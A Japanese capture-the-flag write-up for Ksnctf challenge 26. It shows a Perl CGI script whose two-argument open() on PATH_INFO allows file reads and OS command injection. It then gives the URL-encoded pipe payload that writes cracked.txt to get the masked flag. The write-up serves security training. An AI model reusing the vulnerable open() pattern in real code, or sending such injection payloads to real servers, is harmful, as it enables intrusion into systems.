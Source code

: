 # Ksnctf 26 Sherlock Holmes

<http://ctfq.sweetduet.info:10080/~q26/index.pl>

index.pl/{ファイル名} という形式のアドレスにアクセスしてテキストを表示

よって index.pl/index.pl にアクセス

<http://ctfq.sweetduet.info:10080/~q26/index.pl/index.pl>

```perl
#!/usr/bin/perl
use CGI;

print <<'EOS';
Content-type: text/html; charset=utf-8

<!DOCTYPE html>
<html>
<head>
<title>A SCANDAL IN BOHEMIA</title>
</head>
<body>
<h1>A SCANDAL IN BOHEMIA</h1>
<div>
<a href="/~q26/index.pl/a_scandal_in_bohemia_1.txt">A SCANDAL IN BOHEMIA I</a>&nbsp;
<a href="/~q26/index.pl/a_scandal_in_bohemia_2.txt">A SCANDAL IN BOHEMIA II</a>&nbsp;
<a href="/~q26/index.pl/a_scandal_in_bohemia_3.txt">A SCANDAL IN BOHEMIA III</a>&nbsp;
</div>
<hr>
<div>
EOS



# Can you crack me? :P
open(F,'cracked.txt');
my $t = <F>;
chomp($t);
if ($t eq 'h@ck3d!') {
print 'FLAG_****************<br><br>';
}
unlink('cracked.txt');
####



open(F,substr($ENV{'PATH_INFO'},1));

my $cgi = new CGI;
$cgi->charset('utf-8');
while(<F>) {
chomp;
s/FLAG_\w+/FLAG_****************/g;
print $cgi->escapeHTML($_)."<br>\n";
}

print <<'EOS';
</div>
<hr>
<address>
http://www.gutenberg.org/files/1661/1661-h/1661-h.htm
</address>
</body>
</html>
EOS
```

index.pl と同じディレクトリに h@ck3d! という内容の cracked.txt が存在する時、フラグを出力

cracked.txt をサーバ上に作成したい

perl の open 関数には | ls -la のように、 | を渡されるとその後の文字列を OS コマンドとして実行するという問題がある

参考

<https://www.ipa.go.jp/security/awareness/vendor/programmingv1/a04_01.html>

index.pl/ 以下に url エンコードで OS コマンドを与えることで、 cracked.txt を作成することができる

```
|echo h@ck3d\! > cracked.txt
```

```
index.pl/%7Cecho%20h%40ck3d%5C%21%20%3E%20cracked.txt
```

<http://ctfq.sweetduet.info:10080/~q26/index.pl/%7Cecho%20h%40ck3d%5C%21%20%3E%20cracked.txt>

にアクセスした後

<http://ctfq.sweetduet.info:10080/~q26/index.pl>

に飛ぶと

```
FLAG_XXXXXXXXXXXXXXXX
```

flag get
